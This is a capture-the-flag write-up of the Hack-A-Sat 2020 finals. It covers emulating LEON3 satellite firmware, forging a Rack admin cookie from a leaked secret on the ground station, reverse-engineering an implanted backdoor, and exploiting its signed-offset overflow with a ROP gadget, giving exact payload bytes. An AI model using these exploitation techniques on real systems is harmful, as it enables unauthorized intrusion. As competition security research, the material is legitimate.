

# SPACE SECURITY CHALLENGE 2020 HACK-A-SAT: Finals Write-up

_Write-up by Solar Wine team_

## Challenge -1: Preparation

Before the Finals, the organizers sent documents to the participants that included the firmware of the target Flatsat.
This firmware was a set of two files: `core-cpu3.exe` and `core-cpu3.prom`.
Both were ELF files for 32-bit Big Endian SPARC architecture and we learnt in the documentation sent by the organizers that this firmware was executed on a FPGA running a synthesized LEON3 CPU.
Moreover both files contained debug symbols, which made their reverse engineering using [Ghidra](https://ghidra-sre.org/) very straightforward.

Analyzing these files lead to understanding that `core-cpu3.prom` was a PROM bootloader ("PROM" seemed to be a standard term to designate a bootloader in SPARC world) that loaded the code and data that perfectly matched the content of `core-cpu3.exe` (once decompressed using LZSS), and that `core-cpu3.exe` contained many things.

Thanks to the debug strings included in `core-cpu3.exe`, it was possible to craft a list of components that were built into this 16 MB file using `strings core-cpu3.exe | grep /src`:

* `/src/apps/cf`: CCSDS File Delivery Protocol (CFDP) Application version 2.2.1.0 <https://github.com/nasa/CF>
* `/src/apps/cfs_lib`: cFS library <https://github.com/nasa/cfs_lib>
* `/src/apps/cs`: CS = Checksum application version 2.3.1.0 <https://github.com/nasa/CS>
* `/src/apps/ds`: DS = Data Storage application version 2.4.1.0 <https://github.com/nasa/DS>
* `/src/apps/ephem`: Ephemeris (custom module for Hack-A-Sat)
* `/src/apps/expat_lib`: EXPAT Library (to parse XML files) version 2.1.0 <https://github.com/OpenSatKit/OpenSatKit/tree/master/cfs/apps/expat_lib>
* `/src/apps/eyassat_if`: Interface with the Eyassat module version 0.9 (custom module for Hack-A-Sat)
* `/src/apps/fm`: FM = File Manager application version 2.5.2.0 <https://github.com/nasa/FM>
* `/src/apps/hk`: HK = Housekeeping application version 2.4.1.0 <https://github.com/nasa/HK>
* `/src/apps/hs`: HS = Health & Safety application version 2.3.0.0 <https://github.com/nasa/HS>
* `/src/apps/io_lib`: I/O library <https://github.com/nasa/CFS_IO_LIB>
* `/src/apps/kit_sch`: Kit Scheduler application version 1.0 <https://github.com/OpenSatKit/OpenSatKit/tree/master/cfs/apps/kit_sch>
* `/src/apps/lc`: LC = Limit Checker application version 2.0.0.0 <https://github.com/nasa/LC>
* `/src/apps/md`: MD = Memory Dwell application version 2.3.0.0 <https://github.com/nasa/MD>
* `/src/apps/mm`: MM = Memory Manager application version 2.4.1.0 <https://github.com/nasa/MM>
* `/src/apps/osk_app_fw`: OpenSatKit App Framework Library <https://github.com/OpenSatKit/OpenSatKit/tree/52a3a262506d668acf538cb997ccc10bbd1f68cb> (commit right before renaming `osk_app_fw` to `osk_c_fw`)
* `/src/apps/sc`: SC = Stored Command application version 2.5.0.0 <https://github.com/nasa/SC>
* `/src/apps/uart_to_ci`: UART TO CI = Telemetry Output and Command Ingest (from the radio, connected via an UART interface) version 1.0 (custom module for Hack-A-Sat)
* `/src/cfe`: cFE = Core Flight Executive version 6.7.10.0 <https://github.com/nasa/cFE>
* `/src/osal`: OSAL = OS Abstraction layer version 5.0.1.0 <https://github.com/nasa/osal>
* `/src/psp`: PSP = Platform Support Package version 1.0.0.0 <https://github.com/OpenSatKit/OpenSatKit/tree/master/cfs/psp>
* `/src/rtems/c/src/lib/libbsp/sparc/leon3`: RTEMS operating system for LEON3
* `/src/rsb/rtems/build/sparc-rtems5-gcc-7.5.0-newlib-d14714c69-x86_64-linux-gnu-1`: build directory that gives the precise version of the compiler and C library which were used

With this knowledge, we configured QEMU in order to launch the firmware and debug it.
First we tried using `qemu-system-sparc` to boot `core-cpu3.prom` or `core-cpu3.exe` using commands such as:
```sh
qemu-system-sparc -no-reboot -nographic -M leon3_generic -m 512M -kernel core-cpu3.prom
```
This did not work well enough: some messages related to PROM were displayed on the console, but as soon as `core-cpu3.exe` loaded, everything went blank.

After much debugging, we found out that this was an issue related to the way the UART interface was defined in the virtual machine. The RTEMS operating system in `core-cpu3.exe` was not able to find a proper serial interface to display its console.

More precisely, the firmware expected 3 serial interfaces (compatible with UART devices): one for the console, another for the radio communications and the last one for the "EyasSat interface".
We therefore patched QEMU to add two more serial interfaces and declared them in a specific order in the APB (Advanced Peripheral Bus) used by the virtual machine: <https://github.com/solar-wine/tools-for-hack-a-sat-2020/blob/master/qemu-vm/qemu-patches/0002-Add_Secondary_UART.patch>.

Thanks to this patch, we succeeded in using QEMU to fully emulate the firmware in a virtual machine.
Moreover we plugged GDB in it to debug the firmware and implemented the radio protocol in Python using Scapy, in order to better understand (and to start fuzzing) the exposed interface of the satellite.

The result of this work is released on <https://github.com/solar-wine/tools-for-hack-a-sat-2020>.
This repository also contains instructions in order to help reproducing our setup.
If something is not clear enough, please open an issue on GitHub or submit a Pull Request :)

## Challenge 0: Ground station

The first challenge of the Finals began when we got access to a network through a VPN configuration that was sent to our team.
While we scanned the challenge network looking for servers, we checked the server at `10.100.2.10` as we were asked to check for connectivity with it prior to the challenge start. We found out it was running a Web application.
The application seemed to have an administration interface available in `/admin` but trying to access it directly led to a strack-trace.
The stack-trace content leaked an application secret (`rack.session.options`) which allowed us to sign our own cookies.
A [script](cookie.rb) using Rack was used to forge a cookie with the `username` field set to `admin` then encode everything back in base64 and sign it.
The forged cookie gave us access to the administration interface which provided a way to execute code on the hosting server, thus allowing us to explore it.
By exploiting it we found a private SSH key stored in the `user`'s home directory. It allowed us to access to a machine (`10.100.2.5`) hosting the ground station where [Cosmos](https://cosmosrb.com/) was installed.

## Challenge 1: Radio

We were not able to complete this challenge in time.

It involved taking advice from the section "Anomaly Resolution" in the Hack-A-Sat (HAS) Flatsat User’s Guide v3.0.
To solve this challenge, we should have sent a command to Cosmos to configure the radio in order to use both the "HIGH" power and the "LOW" rate settings, improving the link margin.

We wasted our time thinking that the the satellite stabilization using [ADCS](https://en.wikipedia.org/wiki/Spacecraft_design#Attitude_Determination_and_Control) commands was the first step while complaining about the unstable radio link...

In the end, this challenge could be solved by sending to Cosmos preidentified router a packet with target name `RADIO`, packet name `CONFIG` and payload `RSC:\x00\x01`.

## Challenge 2: GNC repair

Once the radio link became stable, we tried to send some commands to change the attitude of the satellite (by sending packets in `EYASSAT_IF` target to the `ADCS` subsystem).
However most commands seemed to be denied, as the satellite was sending back an event with `"Not on MY satellite ;)"`.
So we spent time trying to find how the attacker was denying us the communication with the EyasSat boards which was in fact the next challenge.

Once the organizers had provided the code used by the attacker to block the access, we found the exact list of commands that were still available, which also included `EYASAT_IF LOAD_TBL` and `EYASAT_IF DUMP_TBL`.
The reason why the attacker blocked most `EYASSAT_IF` commands but these ones remains a mystery to us.

The command `EYASAT_IF LOAD_TBL` loaded ADCS parameters from a table provided as a JSON file.
After crafting our own table with the calibration parameters given in the User's Guide for our team and setting the control mode to 2 (for "follow the sun"), we managed to make our FlatSat follow the sun for a full period.
In order to align the solar panels with the sun, we already knew from our test with the FlatSat during the preparation phase that we had to issue an ADCS command with a 270 degrees yaw angle to align the Y- panel with the "sun". The Yaw parameter was added in the ADCS parameters table.

Note: We did that at 10:02am on the second day of the competition, with allegedly 18 minutes left to score and 15mn to make a full period but apparently did not make it.
So we officially had no point for this challenge.

## Challenge 3: Unlocking the backdoor

### Locating the backdoor in memory

When sending commands to the satellite, most of them were denied and a reply was sent to the telemetry interface, stating `"Not on MY satellite ;)"`.
By trying many different commands, we found out that the `CS` (checksum) and `CF` (CDSDS File) applications were available: the telemetry showed a message `"OK, I guess you can do that..."`, followed by the response of the command.
The `CF` application enabled us to download remote files.
We downloaded `uart_to_ci.obj`, `kit_sch.obj`... with hope that a file would not match the one that was in the firmware provided by the organizers.
All downloaded files matched their reference, unfortunately.

In `CS` application, the `CS ONESHOT` command allowed us to compute the CRC16 of arbitrary memory regions.
This could allow us to find the code of the backdoor in memory, by comparing the checksums with some "references" that were computed on our flatsat.
We added a function to [our Python implementation of CCSDS Space Packet Protocol](https://github.com/solar-wine/tools-for-hack-a-sat-2020/blob/master/scapy-space-packets/client.py) to quickly compute several checksums:
```python
def mem_crc(addr, size):
    codec.high_push(CCSDSPacket() / CS_ONESHOT_CmdPkt(ADDRESS=addr, SIZE=size))
```

At some point while we were still trying to discover where the backdoor was, the organizers provided a pcap file.
This file was a network capture that contained CCSDS Space packets.
By decoding it using [Scapy-based parsers](implantdecode.py), we understood that the attackers had implemented a command that was allowing them to dump memory: when sending a message to the APID (Application ID) `0x1834` with some magic bytes (`463b98fe1ee494bb` in hexadecimal) followed by a symbol name, an offset and a size, the content of the targeted memory was sent back in an event that looked like `DUMP:9DE3BF90C027BFF803103EA182106128C400`.
We used this command to dump some parts of the kernel and some cFS applications, comparing them with the files that we had but did not find the code of the attackers.

30 minutes before the end of the first day, we understood based on the checksums comparison that the instruction at `0x4000B6C4` had been patched to execute some unknown code.
More precisely, comparing the response of `CS ONESHOT` commands between our flatsat and the remote one lead to the following `diff` output:
```diff
 OneShot checksum on Address: 0x40000000, size 16384 completed. Checksum =  0x000043B6
 OneShot checksum on Address: 0x40004000, size 16384 completed. Checksum =  0xFFFFAF94
-OneShot checksum on Address: 0x40008000, size 16384 completed. Checksum =  0xFFFF90DD
+OneShot checksum on Address: 0x40008000, size 16384 completed. Checksum =  0xFFFFC0DD
 OneShot checksum on Address: 0x4000C000, size 16384 completed. Checksum =  0xFFFFDD55
 OneShot checksum on Address: 0x40010000, size 16384 completed. Checksum =  0x00007915
```

Then, reducing progressively the size of the parts where the checksums were computed lead to:
```diff
 OneShot checksum on Address: 0x4000B6C0, size 1 completed. Checksum =  0x00006C00
 OneShot checksum on Address: 0x4000B6C1, size 1 completed. Checksum =  0xFFFFCC01
 OneShot checksum on Address: 0x4000B6C2, size 1 completed. Checksum =  0xFFFFE8C1
 OneShot checksum on Address: 0x4000B6C3, size 1 completed. Checksum =  0xFFFFF001
-OneShot checksum on Address: 0x4000B6C4, size 1 completed. Checksum =  0xFFFFE041
-OneShot checksum on Address: 0x4000B6C5, size 1 completed. Checksum =  0x00004040
-OneShot checksum on Address: 0x4000B6C6, size 1 completed. Checksum =  0x00005880
-OneShot checksum on Address: 0x4000B6C7, size 1 completed. Checksum =  0x00005F00
+OneShot checksum on Address: 0x4000B6C4, size 1 completed. Checksum =  0xFFFFF001
+OneShot checksum on Address: 0x4000B6C5, size 1 completed. Checksum =  0x00006840
+OneShot checksum on Address: 0x4000B6C6, size 1 completed. Checksum =  0x00005D80
+OneShot checksum on Address: 0x4000B6C7, size 1 completed. Checksum =  0x00003E80
 OneShot checksum on Address: 0x4000B6C8, size 1 completed. Checksum =  0xFFFFC0C1
 OneShot checksum on Address: 0x4000B6C9, size 1 completed. Checksum =  0x00000000
 OneShot checksum on Address: 0x4000B6CA, size 1 completed. Checksum =  0x00000000
 OneShot checksum on Address: 0x4000B6CB, size 1 completed. Checksum =  0x00000000
```

In the firmware provided by the organizers for our flatsat, the address `0x4000B6C4` contained the following bytes and SPARC instruction:
```text
4000b6c4 7f ff de d4     call       CFE_ES_WriteToSysLog
```

This instruction belonged to function `CFE_ES_Main`, which was the main function of the `ES` (Executive Service) of `cFE` (Core Flight Executive).
This module was open source on [NASA's GitHub](https://github.com/nasa/cFE) and the call to `CFE_ES_WriteToSysLog` was matching the one [on line 258 of `fsw/cfe-core/src/es/cfe_es_start.c`](https://github.com/nasa/cFE/blob/v6.8.0-rc1/fsw/cfe-core/src/es/cfe_es_start.c#L258):
```c
    /*
    ** Startup is fully complete
    */
    CFE_ES_WriteToSysLog("ES Startup: CFE_ES_Main entering OPERATIONAL state\n");
    CFE_ES_Global.SystemState = CFE_ES_SystemState_OPERATIONAL;
```

The checksums reported by `CS ONESHOT` commands were CRC16 computed using a table which was hard-coded in [function `CFE_ES_CalculateCRC`](https://github.com/nasa/cFE/blob/v6.8.0-rc1/fsw/cfe-core/src/es/cfe_es_api.c#L1258-L1339).
Inverting the table lead to a new instruction:
```text
4000b6c4 40 9f d2 56     call       0x4280001c
                             // Because 0x4000b6c4 + 0x9fd256 * 4 = 0x4280001c
```

This call was hooked to run some code located at `0x4280001c`, but we did not have enough time to dump it.

At the end of the first day, the organizers provided a memory dump of the code used by the attackers to the teams.

### Analyzing the backdoor

We analyzed [the memory dump provided by the organizers](https://github.com/cromulencellc/hackasat-final-2020/blob/master/solvers/c3/solution/dump_verified.bin) and found out that it contained SPARC code executed from address `0x42800000`.
Its first instructions were:
```text
42800000 27 10 27 f4     sethi      %hi(0x409fd000),l3
42800004 a6 14 e2 56     or         l3,0x256,l3
42800008 29 10 00 2d     sethi      %hi(0x4000b400),l4
4280000c a8 15 22 c4     or         l4,0x2c4,l4
42800010 21 10 00 00     sethi      %hi(0x40000000),l0
42800014 81 c4 00 00     jmpl       [l0+g0]=>DAT_4000b6c4
42800018 e6 25 00 00     _stw       l3,[l4+g0]
```

In pseudo-code, this meant:
```c
l3 = 0x0x409fd256;
l4 = 0x0x4000b6c4;
*(uint32_t *)l4 = l3;
goto 0x4000b6c4;
```

This had been used to install the hook that we had found in memory! (register `l3` contained the new bytes for address `0x4000b6c4`).

Therefore the attackers had inserted this "implant" into the memory of the satellite.
The implant patched a call in function `CFE_ES_Main` (at address `0x4000b6c4`) to trigger the execution of some code located at `0x4280001c`.

This code (which was the provided memory dump) called a function requesting the address of some symbols using `OS_SymbolLookup`:

* `CFE_SB_GetMsgId`
* `CFE_SB_GetCmdCode`
* `CFE_SB_GetTotalMsgLength`
* `CFE_SB_SendMsg`
* `CFE_EVS_SendEvent`
* `CFE_PSP_MemRead8`
* `PKTMGR_IngestCommands`

Then the instruction at `PKTMGR_IngestCommands + 0x5e4` was hooked: a call to `CFE_SB_SendMsg` was replaced with a call to `0x42800030`.
So every time the satellite was receiving a packet from the ground control station, that packet would then be processed by a function located in the backdoor code instead of being sent to the internal Software Bus (SB) using `CFE_SB_SendMsg`.

The function at `0x42800030` therefore processed incoming messages:

* If the message ID was `0x1834`, a dedicated message handler was used, which implemented 4 subcommands.
* Otherwise, depending on the value of the message ID, the backdoor would run this pseudo-code:

```c
if (denied_command(msg)) {
    CFE_EVS_SendEvent(0x7e, 3, "Not on MY Satellite ;)");
} else {
    CFE_EVS_SendEvent(0x7e, 3, "OK, I guess you can do that...");
    CFE_SB_SendMsg(msg);
}
```

The `denied_command` implemented a "deny-list" logic mainly based on the message ID.
Here is the full list of denied message IDs:
```text
0x1801 (CFE_EVS_CMD): denied cFE Event Service
0x1803 (CFE_SB_CMD): denied cFE Software Bus
0x1804 (CFE_TBL_CMD): denied cFE Table Service
0x1805 (CFE_TIME_CMD): denied cFE Time Service
0x1806 (CFE_ES_CMD): denied cFE Executive Service
0x1888 (MM_CMD): denied Memory Manager
0x188c (FM_CMD): denied File Manager
0x1890 (MD_CMD): denied Memory Dwell
0x1895 (KIT_SCH_CMD): denied Kit Scheduler
0x189a (HK_CMD): denied Housekeeping
0x18a4 (LC_CMD): denied Limit Checker
0x18a9 (SC_CMD): denied Stored Command
0x18ae (HS_CMD): denied Health & Safety
0x18bb (DS_CMD): denied Data Storage
0x19d9 (PL_IF_CMD): denied Payload Interface
0x19dc (EPHEM_CMD): denied Ephemeris
0x19d5 (EYASSAT_IF_CMD): denied EyasSat Interface if function code is not 2, 3 or 0xc
```

All the other message IDs were allowed.
Among them, examples of some known commands are provided below (gathered from Cosmos configuration files, OpenSatKit project, etc.):
```text
0x1802 (ISIM_CMD): used in simulations?
0x1834: allowed backdoor commands
0x189f (CS_CMD): allowed Checksum application
0x18b3 (CF_CMD): allowed CCSDS File Delivery Protocol (CFDP) application
0x19d5 (EYASSAT_IF_CMD): allowed EyasSat Interface if...
* function code is 2: command "LOAD_TBL"
* function code is 3: command "DUMP_TBL"
* function code is 0xc: commands "ADCS_X_ROD" and "ADCS_Y_ROD"
0x19d7 (UART_TO_CI_CMD): allowed UART Telemetry Output and Command Ingest application
```

When the implant was receiving a message with message ID `0x1834` and when data was starting with bytes `463b98fe1ee494bb`, the next byte was used to specify a command to run:

* Command 1: dump the memory location specified using a symbol name, an offset and a size.
* Command 2: check a password and unlock the backdoor (by putting `1` in a global variable at address `0x42800038`, which disables the restrictive filter).
* Command 3: lock the backdoor again (by setting variable `0x42800038` to `0`).
* Command 4: parse the message in a complex way that could lead to execute the SPARC code given in it, if the backdoor was previously unlocked.

We first thought that the second command was computing the SHA256 of magic bytes and a password given in the message, and that if the result was matching a hard-coded digest, the command would unlock the backdoor.
But looking at it more precisely, the code was not doing this.
Instead it was computing a SHA512 digest in a 32-byte buffer on the stack, that would overflow into the local variable that was containing the current state of the SHA512 computation:
```c
char digest[32];
SHA512_STATE state;
sha512_init(&state);
sha512_update(&state, "\x46\x3b\x98\xfe\x1e\xe4\x94\xbb", 8);
sha512_update(&state, password, 64);
sha512_finalize(&state, digest); // This overflows the buffer
if (!memcmp(digest, hard_coded_digest, 32))
    unlocked = 1;
```

Because of the buffer overflow, and because `sha512_finalize` started copying bytes from the end, in the end `digest` was containing the *last* 32 bytes of the SHA512 digest.
We verified this using `gdb` on QEMU virtual machine where we loaded the backdoor.

Knowing this, we tried to crack the password by brute forcing it but did not succeed.

As the password check logic seemed quite broken and the 4th command appeared dangerous -it was verifying whether the backdoor was locked only after processing the message- we focused our attention on the search of a vulnerability in the 4th command.

### Exploiting the backdoor

When a message with message ID `0x1834` and command 4 was received by the implant, it processed the remaining data of the message in this way:

* It decoded a 32-bit big endian integer located 64 bytes from the start of the remaining data.
  Let's call this value `payload_size`.
  The implementation used this value to delimit variable-length subcommands that were concatenated in the remaining data.
* Each subcommand consisted in a 2-byte header, possibly following by parameters.
  These subcommands operated on a 128-byte-large stack buffer.
  Let's call this buffer `exec_buff`.

Here is some pseudo-code that explains what each command did:
```c
char subcmd_size = subcmd_header[0] & 0xfc;
char subcmd_kind = subcmd_header[0] & 3;
char subcmd_offset = subcmd_header[1];
if (subcmd_offset + subcmd_size > 0x7b)
    return;
if (subcmd_kind == 0) {
    memcpy(exec_buff + subcmd_offset, "\x9d\xe3\xbf\xa0", 4);
    // SPARC: 9d e3 bf a0     save sp,-0x60,sp
} else if (subcmd_kind == 1) {
    memcpy(exec_buff + subcmd_offset, "\x81\xc7\xe0\x08\x81\xe8\x00\x00", 8);
    // SPARC: 81 c7 e0 08     ret
    // SPARC: 81 e8 00 00     _restore
} else if (subcmd_kind == 2) {
    memcpy(exec_buff + subcmd_offset, subcmd_parameter, subcmd_size);
    // and advance the subcommand pointer from 2+subcmd_size instead of 2
} else { // subcmd_kind == 3
    if (unlock) {
        execute_code(exec_buff);
    } else {
        send_event("Unlock if you want to Exec");
    }
}
```

This code has at least 2 vulnerabilities:

* Even though the format seems to be "64 bytes of concatenated subcommands followed by the actual size of subcommands", nothing checks that the given size is below 64. So there could be an out-of-bound read on the message buffer.
* The check `subcmd_offset + subcmd_size > 0x7b` uses signed integers so it is possible to bypass it in order to write outside of `exec_buff`.

Using the second vulnerabilities, it was possible to write less than 256 bytes after the end of the buffer (approximately).
Thankfully, right after the buffer was the function frame.
We used `gdb` to better understand what was there, using a [gdb script to load the implant into a virtual machine](https://github.com/solar-wine/tools-for-hack-a-sat-2020/blob/master/qemu-vm/load_implant.gdbscript):
```text
(gdb) x/32wx $fp
0x4067ff10:	0xf34006c3	0x4003fc8c	0x4003fc90	0x00000020
0x4067ff20:	0x00000040	0x00000040	0x00000004	0x00000000
0x4067ff30:	0x42800038	0x410175c4	0x00000000	0x40680040 // saved o0, o1, o2, o3
0x4067ff40:	0x404e5a78	0x40641040	0x4067fff8	0x428006c0 // saved o4, o5, sp, o7
0x4067ff50:	0x4067ff9c	0x410175c4	0x00000000	0x00000000
0x4067ff60:	0x00000005	0x00050001	0x404f68d4	0x000009dd
0x4067ff70:	0x00010009	0x00000000	0x0a01000d	0x00000000
0x4067ff80:	0x00000001	0x00050000	0x4101761c	0x0767ffff
```

At address `0x4067ff4c = fp+0x3c = exec_buff+0xbc`, there was a saved return address.
In the implant, `0x428006c0` was the address of a call to the function that processed messages with message ID `0x1834`.
By exploiting a vulnerability in the implant, it was possible to change this address to run something else.

There are several ways to write an exploit for this.
For example, as there was no memory protection (MMU or MPU) on the CPU that was used, it was possible to directly jump on code that could be embedded in the message.
But doing this required to precisely guess where our message was located in the memory.
This was possible but would have required much time, so we chose another approach.

In the end, we found and used a single ROP gadget to exploit the vulnerability.
The aim of the exploitation was not to run arbitrary code, but instead to write a non-zero value to the global `unlock` variable at `0x42800038`.

Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) on `core-cpu3.exe` lead to this code:
```text
(gdb) x/3i 0x4006b34c
   0x4006b34c <rtems_rfs_rtems_device_open+288>: st  %l1, [ %o0 ]
   0x4006b350 <rtems_rfs_rtems_device_open+292>: ret
   0x4006b354 <rtems_rfs_rtems_device_open+296>: restore
```

As the saved value of register `o0` was already the target address (`0x42800038`), all that was needed was to return on `0x4006b34c`.
In SPARC, the return address of a function call (in register `i7`/`o7`) is in fact the address of the `call` instruction, 8 bytes before the actual return address.
So we crafted a subcommand that wrote `0x4006b344` (4 bytes) to `exec_buff+0xbc`: `06 bc 40 06 b3 44`.
Using the Scapy client we wrote, we run:
```console
>>> codec.high_push(CCSDSPacket() / IMP_CmdPkt() /
    IMP_EXEC_SubPkt(subcmds=b'\x06\xbc\x40\x06\xb3\x44' + b'\0'* 58 + struct.pack('>I', 6)))
```

This worked fine on the virtual machine!
Afterwards all commands were successfully unlocked.
So we sent the same command to the remote satellite... and it failed to unlock the satellite.
So we tried again on the VM, without `gdb`, and it failed too.
In fact, it only succeeded when there were debug breakpoints in the function that processed the command and we were hitting a cache problem with the register windows that were stored on the stack.

After reading some datasheet of SPARC processors, we found out that in order for register windows to be "flushed in the memory" (which is required for our exploit to modify them), an external interrupt needed to occur.
Thankfully, subcommand 3 ("Exec") triggered the emission of an event, that could cause such a memory flush.
So we quickly hacked-in several "Exec" subcommands with repeated overwrite... until reaching:
```console
>>> codec.high_push(CCSDSPacket() / IMP_CmdPkt() / IMP_EXEC_SubPkt(subcmds=
        b'\x06\xbc\x40\x06\xb3\x44' + b'\x03\x00'*5 +
        b'\x06\xbc\x40\x06\xb3\x44' + b'\x03\x00'*5 +
        b'\0' * (64-6-6-20) + struct.pack('>I', 62)))
```

And this unlocked the full access to the control commands!

We did not simplify the exploit further, even though it looked "dirty", because we wanted to finish all the challenges and time was running out!

In short, we found and exploited a flaw in the implant code to regain full control of the C&DH Flight Software.

## Challenge 4: Repairing the payload

We powered-on the Raspberry Pi using the `POWER` command of the `PL_IF` module in Cosmos, and found that the payload did not work as-is (`ALIVE_STATUS` stayed at 0). So we had to check what was wrong with the payload.

From the schematics provided during the preparation phase, we knew about an UART connecting the Raspberry Pi to the FPGA board with the LEON3. While checking how the signals were routed in the FPGA by reading the Verilog code, we found out that this UART was only enabled when a specific GPIO, the GPIO 1, was set to 1.

Based on the RTEMS development environment provided to us before the challenge, we developed a custom cFS application in order to enable the GPIO and communicate through the UART (available as `/dev/console_d`). We could then switch on the power for the Raspberry Pi board by sending the `PL_IF POWER` command, and look at what was wrong by sending back what was written on the UART.
The resulting code to enable the GPIO was, after many Trial & Error cycles:
```c
void *gpio_hdl = gpiolib_open(1);
if(gpio_hdl == NULL) {
    OS_printf("SOLARWINE gpiolib_open ERROR: %p\n", gpio_hdl);
} else {
    OS_printf("SOLARWINE gpiolib_open res: %p\n", gpio_hdl);
    gpiolib_set(gpio_hdl,1,1);
}
```

During the development of the application, we experienced issues to send commands (the app did not seem to receive them, even though the telemetry messages we implemented were received by Cosmos).
To fix this, we used a *[creative](https://www.youtube.com/watch?v=cQVK07tKXV0&feature=youtu.be&t=615) approach* that consisted in using a buffer in the data segment of the application where we wrote commands to be sent to the UART:
```c
char SOLARWINE_Cmdline[5000];
unsigned int SOLARWINE_Cmdsize = 0;

void SOLARWINE_AppMain(void) {
    /* ... */
    while (CFE_ES_RunLoop(&RunStatus)) {
        /* ... */
        if (SOLARWINE_Cmdsize > 0) {
            if ((SOLAR_OBJ)->connected) {
                int ret = write((SOLAR_OBJ)->fd, SOLARWINE_Cmdline, SOLARWINE_Cmdsize);
                CFE_EVS_SendEvent(SOLARWINE_CMD_NOOP_INFO_EID, CFE_EVS_INFORMATION,
                    "wrote bytes: %d / %d: %.50s\n",
                    ret, SOLARWINE_Cmdsize, SOLARWINE_Cmdline);
                SOLARWINE_Cmdsize = 0;
            } else {
              CFE_EVS_SendEvent (SOLAROBJ_CONNECT_EID, CFE_EVS_CRITICAL,
                "Solar generic command failure.  UART not connected.");
            }
        }
    }
}
```
We wrote in this buffer from the ground station using `MM POKE_MEM` commands, with this additional command in [our Python client](https://github.com/solar-wine/tools-for-hack-a-sat-2020/blob/master/scapy-space-packets/client.py):
```python
def uart_w(cmd):
    """Write the given string to the UART buffer"""
    for i, c in enumerate(cmd):
        codec.high_push(CCSDSPacket() / MM_POKE_MEM_CmdPkt(
            DATA_SIZE=8, DATA=c, ADDR_SYMBOL_NAME='SOLARWINE_Cmdline', ADDR_OFFSET=i))
        time.sleep(.5)
    codec.high_push(CCSDSPacket() / MM_POKE_MEM_CmdPkt(
        DATA_SIZE=32, DATA=len(cmd), ADDR_SYMBOL_NAME='SOLARWINE_Cmdsize', ADDR_OFFSET=0))
    time.sleep(.5)
```

This proved to work fine enough to get access to the serial interface of the Raspberry Pi, showing us a U-Boot prompt stuck in an infinite loop:
```text
U-Boot 2016.09 (Jul 20 2020 - 18:13:01 -0400)

DRAM:  412 MiB
RPI Zero (0x900093)
MMC:   bcm2835_sdhci: 0
In:    serial_pl01x
Out:   serial_pl01x
Err:   serial_pl01x
Net:   Net Initialization Skipped
No ethernet found.
Warning: Bootlimit (3) exceeded. Using altbootcmd.
Hit any key to stop autoboot:
Successfully updated envars
Unknown command 'Good' - try 'help'
resetting ...
```

By sending some newline characters, it was possible to interact with U-Boot properly.
It was then time to find out what was going wrong:
```console
U-Boot> boot
Unknown command 'Good' - try 'help'

U-Boot> env default -a
## Resetting to default environment

U-Boot> boot
Unknown command 'Good' - try 'help'

U-Boot> run mmc_boot
Unknown command 'Good' - try 'help'

U-Boot> printenv mmc_boot
mmc_boot=Good Luck
```

So it turns out that the `mmc_boot` variable was trashed with `"Good luck"` compromising any chance to successfully boot.
We tried several handcrafted commands. For some reason, some (very few) characters were lost when issuing the `MM POKE_MEM` commands. We did not investigate further since we knew that by sending the same command several times we would end up with the command buffer containing what we wanted to execute, and time was running low:

```console
U-Boot> mmc dev 0
switch to partitions #0, OK
mmc0 is current device

U-Boot> fatload mmc 0:1 ${fdt_addr_r} bcm2708-rpi-zero.dtb
reading bcm2708-rpi-zero.dtb
14269 bytes read in 18 ms (773.4 KiB/s)

U-Boot> fatload mmc 0:1 ${kernel_addr_r} kernel
reading kernel
** Unable to read file kernel **
```

Unfortunately, the kernel was not present in the root directory, while all other files were there. Considering the low bandwidth we had, uploading a new kernel seemed out of reach in the remaining time, so we decided to explore the boot partition using the U-Boot `fatls` command:

```console
U-Boot> fatls mmc 0:1
    14269   bcm2708-rpi-zero.dtb
    52296   bootcode.bin
       65   cmdline.txt
      735   config.txt
     6694   fixup.dat
  2869636   start.elf
   376608   u-boot.bin
            .trashes/
            .fseventsd/
7 file(s), 2 dir(s)

U-Boot> fatls mmc 0:1 .trashes/
            ./
            ../
            501/
     4096   ._501
1 file(s), 3 dir(s)

U-Boot> fatls mmc 0:1 .trashes/501/
            ./
            ../
  3107604   kernel
1 file(s), 2 dir(s)
```

What a relief! The kernel had actually been moved into a trash directory and had the same size as the one running on our FlatSat. While we could not move the kernel file back to its original location using U-Boot commands, we simply needed to change the boot command to reflect the change of location of the kernel on the filesystem:

```console
U-Boot> fatload mmc 0:1 ${kernel_addr_r} .trashes/501/kernel
reading .trashes/501/kernel
3107604 bytes read in 246 ms (12 MiB/s)

U-Boot> bootm ${kernel_addr_r} - ${fdt_addr_r}
## Loading kernel from FIT Image at 01000000 ...
   Using 'config@1' configuration
   Verifying Hash Integrity ... OK
   Trying 'kernel@1' kernel subimage
     Description:  unavailable
     Type:         KerneL01 UART driver
[    0.083730] 20201000.uart: ttyAMA0 at MMIO 0x20201000 (irq = 81, base_baud = 0) is a PL011 rev2
...
fsck.fat 4.1 (2017-01-24)
[    2.619719] random: nonblocking pool is initialized
/dev/mmcblk0p1: 15 files, 3151/32695 clusters
fsck 1.44.5 (15-Dec-2018)
rootfs: clean, 2982/32768 files, 75167/131072 blocks
fsck 1.44.5 (15-Dec/dev/mmcblk0p5: clean, 37/65536 files, 25972/1048576 blocks
fsck 1.44.5 (15-Dec-2018)
/dev/mmcblk0p6: clean, 12/19456 files, 145483/307200 blocks
[    3.867926] EXT4-fs (mmcblk0p2): re-mounted. Opts: (null)
[    4.185441] EXT4-fs (mmcblk0p5): mounted OK
Populating /dev using udev: [    4.455731] udevd[448]: starting version 3.2.7
[    4.500733] udevd[448]: specified group 'kvm' unknown
[    4.590773] udevd[449]: starting eudev-3.2.7
[    5.004117] gpiomem-bcm2835 20200000.gpiomem: Initialised: RegInitializing random number generator... done.
Starting network: OK
Starting dropbear sshd: OK
Starting kubos-app-service: 
OK
Starting file-service: 
OK
Starting shell-service: 
OK
Starting telemetry-service: 
OK
